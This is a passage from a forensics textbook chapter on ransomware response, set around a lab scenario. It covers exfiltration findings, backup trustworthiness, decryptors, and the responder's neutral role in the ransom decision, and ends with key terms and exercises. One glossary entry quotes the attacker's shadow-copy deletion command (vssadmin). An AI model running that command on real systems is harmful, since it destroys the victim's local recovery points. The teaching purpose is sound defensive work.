The last two are not the same statement, and conflating them is one of the most consequential errors in ransomware reporting. *We found no evidence of exfiltration* implies you looked with adequate visibility. *We could not determine whether exfiltration occurred because flow records for the relevant window were not retained* is the honest form when the visibility was not there. Counsel will make very different decisions depending on which sentence you write.

State plainly in the report that **the actor's claim is not evidence.** Ransomware crews routinely claim to have stolen data they did not take, and occasionally publish samples from unrelated victims. If the leak site posts a file tree, treat it as a lead to verify against your own evidence, not as a finding.

---

## 12.6 Supporting the Recovery Decision

Recovery is a business decision informed by forensics. The responder's job is to make the inputs to that decision accurate, timely, and clearly qualified.

### 12.6.1 What Forensics Owes the Business

Forensics owes the business four assessments. Deliver each one as early as you can responsibly give it, and revise it as evidence accumulates:

| Assessment | The question it answers | Primary evidence |
|---|---|---|
| **Scope confidence** | Do we know every affected host, or only every host we have looked at? | Enterprise sweep coverage; hosts with no telemetry |
| **Actor presence** | Is the actor still in the environment right now? | Persistence findings, active C2, recent authentications |
| **Backup trustworthiness** | Is there a restore point that predates the intrusion and is free of persistence? | Dwell window start vs. backup dates; persistence artifacts in backup images |
| **Reinfection risk** | If we restore today, what is the chance of being encrypted again? | Initial access vector status, credential rotation status, persistence remediation status |

Each should carry an explicit confidence level and an explicit list of what would raise it.

### 12.6.2 Is the Actor Still In?

Restoring while the actor still has access is the worst outcome available, and it is common. The evidence to gather:

- **Persistence inventory** — every account, service, scheduled task, run key, and remote-access tool identified in 12.2.2, across every in-scope host. Hunt for persistence found on one host across all hosts.
- **Credential exposure** — which accounts were on which hosts during the dwell window. Treat any credential cached on a compromised host as stolen. If the actor touched a domain controller or `NTDS.dit`, assume every domain credential is compromised, including `krbtgt` (Appendix A).
- **Active C2** — current network flow to known actor infrastructure, including `185.220.101.44`, plus DNS query logs for actor domains.
- **Recent authentication** — any logon by compromised accounts after the encryption event.

The output is a remediation prerequisite list of what must be true before restoration begins. It typically includes: initial access path closed, all identified persistence removed, compromised credentials rotated (including `krbtgt` twice if warranted), EDR deployed to every host being restored, and monitoring in place for the identified indicators.

### 12.6.3 Are the Backups Trustworthy?

Backup trustworthiness breaks into three separate questions that are often conflated:

1. **Do the backups exist?** The actor deleted the shadow copies here, and the backup catalog may have been purged. Verify against the backup platform, not the host.
2. **Are they clean?** A backup taken on 2024-11-10 is inside the dwell window and may contain the actor's persistence. The last backup predating 2024-11-06 is the first candidate for a trustworthy restore point. It remains only a candidate until you have checked it for the persistence artifacts from 12.6.2.
3. **Are they complete?** A restore point that predates the intrusion by weeks may also predate business data the organization cannot afford to lose. The business makes that tradeoff, but it can only do so if you give it the dwell-window start date clearly.

Hunting a mounted backup image for the persistence indicators you found in production is a high-value step that teams often skip. It converts "we think this backup is clean" into "we checked."

### 12.6.4 Decryptors and Key Material

Two lines of inquiry are occasionally productive. Check both before anyone concludes that paying is the only path to the data:

**Public decryptors.** [No More Ransom](https://www.nomoreransom.org/), a joint initiative of Europol and private-sector partners, hosts free decryptors for many families. These include families whose keys were seized in law-enforcement operations, whose crypto was flawed, or whose operators released keys when shutting down. Precise family identification is the prerequisite. Use the ransom note text, the file extension, the note filename, and a sample encrypted file. ID Ransomware and the family-identification services that most EDR vendors offer serve the same purpose. Check before you finalize recovery planning, not after.

**Key material in memory.** Some ransomware families generate or hold encryption keys in memory and do not securely wipe them. If the encryptor process is still running, or if the host has not been rebooted since encryption, a memory capture may contain recoverable key material (Chapter 7). This is a long shot that depends entirely on the family's implementation. It costs only one memory capture, though, and a memory image is worth acquiring for a dozen other reasons anyway. **Capture memory before rebooting an encrypted host.** Once it reboots, that possibility is gone permanently.

> **This is not in tension with cutting power on a host mid-encryption.** Chapter 13 §13.4.1 puts hard power-off at the most destructive end of the containment scale and reaches for it in exactly one situation: destruction actively in progress. That is a decision about a host where files are being encrypted *right now*, where the data still being lost outweighs the memory. The advice here applies to the far more common case: a host you find after the encryptor has finished. Nothing further is being destroyed there, and there is no reason to reboot before capturing. If you are unsure which case you are in, check whether the file count is still climbing.

Do not present either line of inquiry as likely to succeed. Check both, because the cost of checking is small and the cost of not checking is potentially the entire ransom.

### 12.6.5 The Pay / Don't Pay Question

Sooner or later someone will ask what you think. The correct answer is that it is not your decision, and that you can tell them what the evidence supports.

That answer is not evasion. Executive leadership makes the ransom decision with counsel. They weigh legal exposure, sanctions screening, insurance terms, the viability of recovery without a decryptor, and business tolerance for data publication. Payments to sanctioned entities carry legal liability in many jurisdictions, and screening is counsel's function, not the responder's. A forensic responder has visibility into exactly one of those inputs.

What you contribute:

- **Whether recovery without the decryptor is feasible**, based on backup viability from 12.6.3
- **Whether data was actually exfiltrated**, using the tiered language from 12.5.5, since paying to suppress publication of data that was never taken is a specific and avoidable waste
- **Whether a free decryptor exists** for the identified family
- **Precise family identification**, which the negotiation vendor needs and which correlates with whether a given crew's decryptor historically works
- **Whether the actor still has access**, since paying while the actor is still resident invites a second event

Avoid advocating a position in your report, editorializing about the ethics, or implying a recommendation through selective framing. Write the findings and let the decision-makers decide. If someone asks you directly, it is appropriate to say "that decision sits with counsel and leadership — here is what the evidence supports on each of the inputs they will weigh."

> **Why this matters:** A responder who pushes a position on payment can no longer serve as a neutral source of fact in the same conversation. Their scope findings start to read as advocacy rather than evidence. Neutrality here is not squeamishness. It is what keeps the rest of your findings credible.

---

## Chapter Summary

Ransomware is the case where forensic discipline is under the most pressure and matters the most. The encryption event is the end of the intrusion, not its beginning, and the investigation that matters covers the dwell window before it. In this chapter's scenario, ACCT-FS01 was encrypted in an 84-minute window on 2024-11-12. The intrusion began six days earlier with an RDP brute force against `svc-backup` on an internet-exposed jump host.

Each stage of the kill chain leaves Windows artifacts covered elsewhere in this book. RDP initial access leaves 4625 bursts and a 4624 Type 10, and persistence leaves 4720, 7045, and 4698. Credential access and discovery show in 4688 command lines and Prefetch. Lateral movement leaves 4648, 4624 Type 3, and `MountPoints2`. Staging shows as MFT and USN Journal bursts, and exfiltration as `rclone.conf`, SRUM, and flow records. Defense evasion leaves Defender 5001/5007, volsnap 25, and Security 1102. The encryption itself leaves a USN rename storm plus ransom-note placement.

Scoping uses the `.vaulted` extension sweep for volume, USN Journal per-minute binning for the encryption window, and `RECOVER-YOUR-FILES.txt` placement as a directory map. A file server showing mass modification with no local execution evidence was encrypted over SMB from elsewhere, and 5140/5145 identify the source.

Patient-zero analysis chains backwards from the encryptor, through the account, across each host boundary, to an entry point confirmed by independent evidence. A cleared Security log relocates the investigation to domain controllers, operational channels, NTFS, SRUM, and EDR rather than ending it. Report a dwell window bounded by the oldest surviving log as exactly that.

The exfiltration question carries the regulatory consequences and usually resolves to a confidence statement rather than a yes or no. Staging artifacts, transfer-tool artifacts, and egress volume together support tiered findings. The critical distinction is between "no evidence found" and "cannot be determined."

Finally, forensics owes the recovery decision four assessments: scope confidence, actor presence, backup trustworthiness, and reinfection risk. Free decryptors sometimes exist and memory sometimes retains key material. Both are worth checking, and neither is worth promising. The pay/don't-pay decision belongs to leadership and counsel. The responder contributes accurate inputs and neutral framing.

## Key Terms

**Blast Radius:** The full extent of an encryption event — every host, volume, share, and directory affected — established through extension sweeps and ransom-note placement.

**Double Extortion:** A ransomware model in which data is exfiltrated before encryption so the actor can threaten publication in addition to withholding the decryption key.

**Dwell Time:** The interval between an attacker's initial access to an environment and the point at which their presence is detected or their objective is executed.

**Encryption Window:** The bounded period during which a ransomware encryptor ran, established from USN Journal modification rates and ransom-note creation timestamps.

**Human-Operated Ransomware:** Ransomware deployed by an interactive operator who performs reconnaissance, credential theft, and lateral movement before encrypting, as distinct from automatically propagating worms.

**Patient Zero:** The first host compromised in an intrusion, identified by chaining backwards from later activity to an entry point with an external source.

**Pre-Encryption Exfiltration:** Data theft performed during the dwell window and before encryption, typically staged locally and transferred with a legitimate file-sync or transfer utility.

**Ransom Note:** A file dropped by the encryptor containing the victim identifier, contact channel, and demands; its placement across directories serves as a map of the affected file set.

**Reinfection Risk:** The likelihood that a restored environment will be encrypted again, driven by unremediated persistence, unrotated credentials, and an unclosed initial access path.

**Shadow Copy Deletion:** Destruction of Volume Shadow Copy Service snapshots, typically via `vssadmin delete shadows /all /quiet`, performed immediately before encryption to prevent local recovery.

**Staging Directory:** A location where an actor collects and archives data prior to exfiltration, often chosen to resemble legitimate system paths.

**USN Mass-Modification Pattern:** The distinctive high-rate, uniform, rename-paired sequence of USN Journal records produced by bulk encryption, used to establish the encryption window.

## Review Questions

1. Why is it a mistake to scope a ransomware investigation to the encryption event, and what should the scope be instead?
2. What are the four competing clocks in a ransomware incident, and how does a responder manage the conflict between them?
3. Which artifacts on a jump host would evidence an RDP brute-force initial access, and which of them survive a Security log clear?
4. How can a responder distinguish encryption performed locally on a file server from encryption performed remotely over SMB?
5. What does the placement of `RECOVER-YOUR-FILES.txt` across directories tell you that a per-file extension sweep does not?
6. Describe the USN Journal signature of bulk encryption and explain how it differs in shape from normal file-server activity.
7. Security EID 1102 shows the log was cleared five minutes before encryption. Name five independent evidence sources that survive this and explain what each contributes.
8. What is the difference between the findings "no evidence of exfiltration was found" and "exfiltration could not be determined," and why does the distinction matter?
9. Why is SRUM particularly valuable in exfiltration analysis on a host where the actor performed cleanup?
10. What four assessments does forensics owe the recovery decision, and why is the responder not the right person to recommend whether to pay?

## Practical Exercises

1. Using the Lab 12 dataset for ACCT-FS01, sweep the parsed MFT for the `.vaulted` extension and produce per-directory counts and a total encrypted data volume.
2. Bin the USN Journal records into one-minute buckets across 2024-11-12 and plot the counts. Identify the encryption start and stop times from the curve and compare them to the values given in this chapter.
3. Extract every `RECOVER-YOUR-FILES.txt` entry from the MFT and build a directory map of the blast radius. Use the note `$SI` Born timestamps to reconstruct the encryptor's traversal order.
4. Build an account-centric timeline for `FINANCE\svc-backup` from the available authentication events, spanning 2024-11-06 through 2024-11-12. Annotate the point at which the account's behavior diverges from its normal pattern.
5. Working backwards from the encryption event, document the chain of hosts from ACCT-FS01 to the entry point. For each hop, name the source-side and destination-side artifacts that support the link.
6. Identify the staging activity in `C:\Windows\Temp\wu\` from the USN Journal, reconstruct the staged file list, and estimate the staged data volume. Compare it against the observed egress volume to `185.220.101.44`.
7. Assemble the defense-evasion sequence — Defender disable, shadow copy deletion, log clear — into a single ordered timeline with the artifact supporting each step, and calculate the interval between the first evasion action and the start of encryption.
8. Write a one-page exfiltration finding using the tiered confidence language from §12.5.5. State the tier explicitly, name the supporting evidence, and name at least one evidence gap that constrains the conclusion.

> **Hands-on:** [Lab 12 — Ransomware Incident Response](../Labs/Lab12/ReadMe.md) — work the Vault encryption of ACCT-FS01 end-to-end: scope the blast radius, chain backwards to patient zero, answer the exfiltration question, and brief the recovery decision.

---

## Looking Ahead

This chapter produced findings, and the next one turns them into decisions and documents. Chapter 13 covers reporting, containment, and recovery. It shows how to write the incident report that leadership, counsel, insurers, and regulators will each read differently. It also shows how to sequence containment so that remediation does not tip off an actor still resident in the environment, and how to structure a recovery that closes the access path rather than restoring alongside it. The ransomware case in this chapter is the running example. The scope numbers, the dwell window, the exfiltration confidence tier, and the four recovery assessments are exactly the inputs Chapter 13 shows you how to communicate.

---
